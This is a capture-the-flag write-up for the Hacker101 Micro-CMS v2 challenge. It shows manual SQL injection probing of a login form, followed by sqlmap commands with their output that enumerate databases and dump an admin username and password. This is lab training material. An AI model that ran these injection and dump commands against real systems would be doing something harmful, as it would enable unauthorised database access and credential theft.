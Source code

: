 ## Micro-CMS v2 - Hacker101 CTF - Web (moderate)

#### Initial recon

The page is very barebones, however there are two options that we can navigate to that will be the primary attack surface: Creating a new page, and editing a page. Either one of these directs us to a login prompt.





#### Login Page Injection

I send a login request and capture it with burpsuite to get a better look. The login function sends a POST request with parameters: username and password. From here I can test for injection vulnerabilities.

Testing for SQLi:

Simply entering ' for the username produces an error in the page:

But entering '; for the username just gives me an unknown user response. Therefore I am likely dealing with a SQL database.

For example, the username code could be "username = '<SOME INPUT>'" where <SOME INPUT> is what we enter. When we enter single apostrophe the effective result becomes "username = '''" which is invalid code. However, when we use ';, the ; ends the line of code: "username='';'" so the apostrophe after the semicolon is voided out making it legitimate code hence the normal unknown user response.

From here, I try "test' or 1=1;" as my input and this time the page tells us "invalid password". Trying out to comment the remaining line of SQL to ignore the password doesn't work. There is likely a separated SQL line for password checking, to ensure that a user is matched to its password.

I will make use of sqlmap to make a more comprehensive attack into this SQLi vulnerability.

```
sqlmap -u "https://1b2e944ae31eb228af9fbc71fdeb9e9c.ctf.hacker101.com/login" --data="username=admin&password=test" -p username,password --level=5 --risk=3
```

The results of this sqlmap tell me that the backend database type is MySQL so I cancel this run and rerun SQLmap to save time:

```
sqlmap -u "https://ed680846e3ecdfe2bdfdc9f9c2b8a9db.ctf.hacker101.com/login" --data="username=test&password=some" --batch --dbms=mysql --dbs --level=3 --risk=2
```

The above command enumerated 4 databases:

```
[13:11:23] [INFO] retrieved: 4
[13:11:26] [INFO] retrieved: information_schema
[13:12:25] [INFO] retrieved: performance_schema
[13:13:21] [INFO] retrieved: mysql
[13:13:40] [INFO] retrieved: level2
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema
```

I will continue using sqlmap to further enumerate the MySQL database.

```
sqlmap -u "https://ed680846e3ecdfe2bdfdc9f9c2b8a9db.ctf.hacker101.com/login" --data="username=test&password=some" --dbms=mysql -D level2 --tables --columns --level=3 --risk=2 --threads=8
```

The results of the above command tell me there are two tables in the "level2" database: "admins" and "pages". Then sqlmap continues to find the column names for each of these tables:

```
Database: level2
Table: pages
[4 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| body   | mediumtext   |
| id     | int(11)      |
| public | tinyint(1)   |
| title  | varchar(256) |
+--------+--------------+

Database: level2
Table: admins
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| password | varchar(256) |
| username | varchar(256) |
+----------+--------------+

```

From here, what we are interested in is the password and username columns for the admins table in the level2 database. To dump the data from this table, use the following sqlmap:

```
sqlmap -u "https://ed680846e3ecdfe2bdfdc9f9c2b8a9db.ctf.hacker101.com/login" --data="username=test&password=some" --dbms=mysql -D level2 -T admins -C id,password,username --dump --level=3 --risk=2 --threads=8
```

And like magic, the results:

```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | crista   | amber    |
+----+----------+----------+
```

After logging in, the flag shows up.

#### Resources

https://sqlmap.org/


